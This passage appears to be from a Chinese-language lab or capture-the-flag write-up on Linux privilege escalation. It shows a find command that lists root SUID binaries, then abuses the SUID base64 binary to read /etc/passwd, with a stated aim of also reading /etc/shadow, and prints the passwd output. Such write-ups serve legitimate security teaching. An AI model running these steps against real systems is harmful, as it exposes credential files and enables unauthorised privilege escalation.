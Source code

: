 ### 3 
SUID

```
[leonard@ip-10-10-178-144 ~]$ find / -user root -perm -4000 -print 2>/dev/null
/usr/bin/base64
/usr/bin/ksu
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chage
/usr/bin/newgrp
/usr/bin/staprun
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/Xorg
/usr/bin/mount
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/at
/usr/bin/sudo
```
先用base64 得到shadow和passwd
`passwd`
```
[leonard@ip-10-10-178-144 ~]$ /usr/bin/base64 "/etc/passwd" | base64 --decode
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
pegasus:x:66:65:tog-pegasus OpenPegasus WBEM/CIM services:/var/lib/Pegasus:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
colord:x:998:995:User for colord:/var/lib/colord:/sbin/nologin
unbound:x:997:994:Unbound DNS resolver:/etc/unbound:/sbin/nologin
libstoragemgmt:x:996:993:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
saslauth:x:995:76:Saslauthd user:/run/saslauthd:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
gluster:x:994:992:GlusterFS daemons:/run/gluster:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
setroubleshoot:x:993:990::/var/lib/setroubleshoot:/sbin/nologin
rtkit:x:172:172:RealtimeKit:/proc:/sbin/nologin
pulse:x:171:171:PulseAudio System Daemon:/var/run/pulse:/sbin/nologin
radvd:x:75:75:radvd user:/:/sbin/nologin
chrony:x:992:987::/var/lib/chrony:/sbin/nologin
saned:x:991:986:SANE scanner daemon user:/usr/share/sane:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
qemu:x:107:107:qemu user:/:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
sssd:x:990:984:User for sssd:/:/sbin/nologin
```